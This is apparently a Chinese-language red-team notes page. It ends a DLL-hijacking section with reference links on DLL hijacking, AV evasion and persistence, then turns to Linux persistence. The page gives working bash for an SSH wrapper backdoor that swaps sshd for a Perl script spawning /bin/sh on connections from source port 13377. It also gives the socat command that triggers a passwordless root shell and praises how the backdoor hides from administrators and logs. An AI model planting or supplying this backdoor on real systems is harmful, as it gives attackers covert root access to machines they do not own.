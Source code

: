 ![](https://img-blog.csdnimg.cn/e6df96e03b444cff8f3d099b89cc4439.png)

然后打开qq，成功上线
![](https://img-blog.csdnimg.cn/c662681dbbec486eb718d43c924420e3.png)

参考：
[DLL劫持快速挖掘入门教程](https://tttang.com/archive/1365/)
[Dll劫持注入从原理到白加黑漏洞利用](https://xz.aliyun.com/t/11711)
[看我如何用微信上线CobaltStrike](https://www.cnblogs.com/diligenceday/p/14121606.html)
[DLL劫持学习及复现](https://www.cnblogs.com/Xy--1/p/14487495.html)
[利用dll劫持实现免杀与维权](https://hosch3n.github.io/2021/06/29/%E5%88%A9%E7%94%A8dll%E5%8A%AB%E6%8C%81%E5%AE%9E%E7%8E%B0%E5%85%8D%E6%9D%80%E4%B8%8E%E7%BB%B4%E6%9D%83/)


### Linux权限维持
[[总结]Linux权限维持](https://www.cnblogs.com/-mo-/p/12337766.html)
[linux权限维持 ](https://www.anquanke.com/post/id/276174)
[Linux下常见的权限维持方式](https://zhuanlan.zhihu.com/p/116030154)

#### SSH wrapper

实现原理：init 首先启动的是 `/usr/sbin/sshd` ，脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 `/usr/bin/sshd` ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 `/usr/sbin/sshd` ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是 13377 就执行sh给个shell

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中：(4A是13377的小端模式)

```bash
cd /usr/sbin/
mv sshd ../bin/

echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

/etc/init.d/sshd restart
```

然后再执行：`socat STDIO TCP4:target_ip:22,sourceport=13377`
![](https://img-blog.csdnimg.cn/06239769505f418096ff9ae1d6db61bf.png)


可以看到无需密码成功连接到root权限
想要修改连接端口的话可以利用py修改：
```python
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer)
```
优点：
1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆
2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录
